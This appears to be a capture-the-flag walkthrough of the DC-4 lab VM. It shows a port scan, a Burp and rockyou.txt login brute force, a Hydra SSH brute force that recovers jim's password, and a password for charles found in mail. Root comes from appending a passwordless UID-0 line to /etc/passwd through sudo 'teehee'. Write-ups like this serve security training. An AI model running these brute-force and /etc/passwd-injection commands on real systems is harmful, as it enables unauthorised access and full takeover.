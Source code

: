 DC4

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] Brute Force web login password
[+] Execute commands on the server from UI
[+] Hydra brute force login credentials
[+] Privilege Escalation abusing SUDO rights -  teehee ---ading setrus in /etc/passwd
"setrus::0:0:::/bin/bash"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Host is up (0.00066s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d:60:57:06:6c:27:e0:2f:76:2c:e6:42:c0:01:ba:25 (RSA)
|   256 e7:83:8c:d7:bb:84:f3:2e:e8:a2:5f:79:6f:8e:19:30 (ECDSA)
|_  256 fd:39:47:8a:5e:58:33:99:73:73:9e:22:7f:90:4f:4b (ED25519)
80/tcp open  http    nginx 1.15.10
|_http-server-header: nginx/1.15.10
|_http-title: System Tools
MAC Address: 08:00:27:B3:AB:48 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Browsing to http://192.168.56.109 we found a login page



Burp Intruder with username : admin
password :  rockyou.txt



We can execute command on the server from the web application


After browsing the server we found a password backup for user jim


All this passwords have been put in a file.

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# hydra -l jim -P passwords ssh://192.168.56.109
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-10-25 09:47:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 251 login tries (l:1/p:251), ~16 tries per task
[DATA] attacking ssh://192.168.56.109:22/
[STATUS] 179.00 tries/min, 179 tries in 00:01h, 75 to do in 00:01h, 16 active
[22][ssh] host: 192.168.56.109   login: jim   password: jibril04
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 4 final worker threads did not complete until end.
[ERROR] 4 targets did not resolve or could not be connected
[ERROR] 16 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-10-25 09:49:07

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Username :  jim
Password : jibril04


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# ssh jim@192.168.56.109
jim@192.168.56.109's password: 
Linux dc-4 4.9.0-3-686 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Sun Apr  7 02:23:55 2019 from 192.168.0.100
jim@dc-4:~$ id;whoami
uid=1002(jim) gid=1002(jim) groups=1002(jim)
jim

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
jim@dc-4:~$ find / -user charles 2>/dev/null
/home/charles
/home/charles/.profile
/home/charles/.bashrc
/home/charles/.bash_logout
You have new mail in /var/mail/jim
jim@dc-4:/var/mail$ cat jim 
From charles@dc-4 Sat Apr 06 21:15:46 2019
Return-path: <charles@dc-4>
Envelope-to: jim@dc-4
Delivery-date: Sat, 06 Apr 2019 21:15:46 +1000
Received: from charles by dc-4 with local (Exim 4.89)
	(envelope-from <charles@dc-4>)
	id 1hCjIX-0000kO-Qt
	for jim@dc-4; Sat, 06 Apr 2019 21:15:45 +1000
To: jim@dc-4
Subject: Holidays
MIME-Version: 1.0
Content-Type: text/plain; charset="UTF-8"
Content-Transfer-Encoding: 8bit
Message-Id: <E1hCjIX-0000kO-Qt@dc-4>
From: Charles <charles@dc-4>
Date: Sat, 06 Apr 2019 21:15:45 +1000
Status: O

Hi Jim,

I'm heading off on holidays at the end of today, so the boss asked me to give you my password just in case anything goes wrong.

Password is:  ^xHhA&hvim0y

See ya,
Charles


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Logging in as Charles

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
jim@dc-4:/var/mail$ su charles
Password: 
charles@dc-4:/var/mail$ id
uid=1001(charles) gid=1001(charles) groups=1001(charles)
charles@dc-4:/var/mail$ sudo -l
Matching Defaults entries for charles on dc-4:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User charles may run the following commands on dc-4:
    (root) NOPASSWD: /usr/bin/teehee

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Privilege Escalation

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
charles@dc-4:/var/mail$ echo "setrus::0:0:::/bin/bash" | sudo /usr/bin/teehee -a /etc/passwd
setrus::0:0:::/bin/bash
charles@dc-4:/var/mail$ su setrus
root@dc-4:/var/mail# id
uid=0(root) gid=0(root) groups=0(root)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~






